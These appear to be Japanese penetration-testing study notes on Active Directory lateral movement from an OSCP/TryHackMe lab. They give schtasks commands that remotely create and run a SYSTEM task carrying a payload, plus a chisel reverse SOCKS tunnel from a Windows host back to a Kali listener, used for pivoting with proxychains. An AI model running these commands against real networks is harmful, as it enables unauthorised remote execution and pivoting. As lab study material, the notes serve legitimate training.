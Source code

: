 

#### Creating Scheduled Tasks Remotely

schtasksを作成する。THMtask1を作成するコマンド

```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

/sc ONCE：特定の時間に一回のみ実施する

これも標準出力結果を見ることはできない

削除するコマンド

```cmd
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```



### Chiselを使ったproxychainsの構築(内部サーバーにnmapやpass the hashするとき)

https://ap3x.github.io/posts/pivoting-with-chisel/

```bash
cp ~/Documents/tools/chisel/* ~/Documents/OSCP/LAB/challenge4/MS01/
```

linuxでリッスンする

```bash
./chisel_linux server -p 8001 --reverse
```

![image-20230416223412831](img/ActiveDirectory_lateralmove/image-20230416223412831.png)

windowsから接続する

```cmd
C:\Windows\system32>chisel.exe client 192.168.119.154:8001 R:1080:socks
```

![image-20230416223632537](img/ActiveDirectory_lateralmove/image-20230416223632537.png)

kaliで/etc/proxychains4.confを編集する

```bash
sudo vi /etc/proxychains4.conf 
```
